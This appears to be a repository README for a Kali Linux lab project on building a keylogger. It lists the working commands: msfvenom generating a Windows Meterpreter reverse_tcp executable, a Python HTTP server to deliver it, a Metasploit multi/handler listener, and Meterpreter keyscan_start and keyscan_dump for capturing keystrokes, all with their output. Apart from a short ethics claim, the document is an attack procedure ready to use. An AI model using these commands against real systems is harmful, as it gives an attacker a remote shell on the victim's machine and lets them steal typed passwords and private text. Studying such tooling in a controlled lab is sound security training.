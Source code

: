 # Keylogger Setup Project

## Project Overview
The Keylogger Project delves into the creation of a keylogger using Kali Linux, with a focus on the Metasploit Framework's msfvenom and Meterpreter. The objective is to provide users with hands-on experience in generating payloads, setting up listeners, and exploring the capabilities of Meterpreter in a controlled and ethical environment.

```
ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet [REDACTED]  netmask 255.255.255.0  broadcast [REDACTED]
        inet6 [REDACTED]  prefixlen 64  scopeid 0x20<link>
        ether [REDACTED]  txqueuelen 1000  (Ethernet)
        RX packets 1639859  bytes 873793905 (833.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1215487  bytes 189420207 (180.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 363  bytes 25152 (24.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 363  bytes 25152 (24.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Building a Keylogger with Kali Linux:

The process begins with the creation of a "meterpreter shell" using the ```msfvenom``` command in Kali Linux.
The command generates a payload in the form of an executable file (shell.exe) that establishes a connection with another system when executed.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[REDACTED] LPORT=123 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
### Command Explaination 
```-p``` = payload  <br>
```LHOST``` = local host (Linux Machine) <br>
```LPORT``` = local port <br>
```-f``` = file format <br>
```-o``` = output file name
```

python -m http.server 8000

```
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit (multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit (multi/handler) > set LHOST [REDACTED]
LHOST => [REDACTED]
msf6 exploit (multi/handler) > set LPORT 123
LPORT => 123
msf6 exploit(multi/handler) > run
```
## Keylogging Commands:

After successfully establishing a connection, the user can initiate the keylogger with the command meterpreter > keyscan_start.
```
meterpreter > keyscan_start
```
To retrieve captured keystrokes, the command meterpreter > keyscan_dump is used.
```
meterpreter > keyscan_dump
```
